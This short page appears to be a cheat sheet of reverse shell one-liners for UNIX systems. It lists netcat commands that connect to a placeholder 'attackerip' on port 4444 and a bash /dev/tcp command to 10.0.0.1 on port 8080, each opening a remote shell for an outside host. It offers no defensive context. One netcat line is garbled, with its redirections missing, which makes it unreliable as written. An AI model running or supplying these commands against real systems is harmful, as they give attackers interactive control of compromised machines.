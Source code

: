 ## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

### 1. Netcat

> nc -c /bin/sh attackerip 4444  
> /bin/sh | nc attackerip 4444  
> rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p  






bash -i >& /dev/tcp/10.0.0.1/8080 0>&1